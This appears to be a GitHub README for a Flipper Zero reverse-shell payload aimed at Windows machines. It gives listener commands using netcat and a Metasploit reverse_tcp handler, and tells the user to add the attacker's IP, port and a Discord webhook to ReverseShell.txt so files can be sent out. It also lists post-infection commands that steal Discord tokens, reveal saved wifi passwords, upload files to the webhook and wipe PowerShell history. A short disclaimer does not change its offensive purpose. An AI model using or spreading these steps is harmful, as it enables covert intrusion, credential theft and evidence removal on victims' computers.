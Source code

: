 # Reverse shell for Flipperzero

# Setup

1. listener setup
```
$ nc -nvlp <port_number>
```
or metasploit
```
$ use multi/handler
$ set payload windows/x64/shell/reverse_tcp
$ set lhost <ip address>
$ set lport <port number>
$ run
```

2. Insert the IP address and Port of your listener into the ReverseShell.txt file
3. Insert discord webhook for exfiltrating files to such in the ReverseShell.txt

• use a url shortener for the links in ReverseShell.txt
  - stays in run box char limit
  - faster execution

# Disclaimer
I am not responsible for the usage of this utility, it is simply for researching and experimentation for myself. The user, YOU take full responsibility for your actions.

# Have fun!
Additional commands after infection

  /tgrizzly
  - exfiltrates discord tokens and saves them to C:\temp\output.txt

  /wifi
  - shows saved wifi passwords

  /discord (filename)
  - send the file to your discord webhook

  /clean
  - removes powershell history
